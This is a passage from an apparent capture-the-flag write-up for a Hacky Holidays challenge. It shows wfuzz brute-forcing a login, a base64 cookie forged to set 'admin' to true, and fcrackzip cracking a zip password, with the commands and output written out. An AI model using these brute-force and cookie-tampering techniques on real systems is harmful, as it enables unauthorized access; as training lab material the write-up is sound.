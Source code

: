 Nice, wfuzz found a username: `access`. I tried to login with this username and a random password, and got a new error:

{F1134537}

Next it was just a matter of brute forcing the password...

```
wfuzz -zfile,wordlists/passwords.txt --hs 'Invalid Password' -d 'username=access&password=FUZZ' https://hackyholidays.h1ctf.com/secure-login 

********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: https://hackyholidays.h1ctf.com/secure-login
Total requests: 9953

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                             
===================================================================

000000053:   302        0 L      0 W      0 Ch        "computer" 
```

...and then I had a password too! I tried to login with `access:computer` to collect the flag!

{F1134536}

...or maybe not. There was no flag there. I took a look around at the new page and noticed the `securelogin` cookie that had been set during login.

{F1134535}

The cookie had a value of `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`, which base64 decoded to `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`. I encoded a new JSON object with `admin` set to `true` and refreshed the page, hoping to elevate my access...

```
$ echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64 -w0
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```

Setting the `securelogin` cookie to the value encoded above and reloading the page revealed a new file I could now download.

{F1134534}

I downloaded the `my_secure_files_not_for_you.zip`, and found it was password protected. A great tool for brute forcing zip passwords is `fcrackzip`, so I pointed it at the archive and pulled the trigger:

```
fcrackzip -u -D -p wordlists/passwords.txt my_secure_files_not_for_you.zip    

PASSWORD FOUND!!!!: pw == hahahaha
```
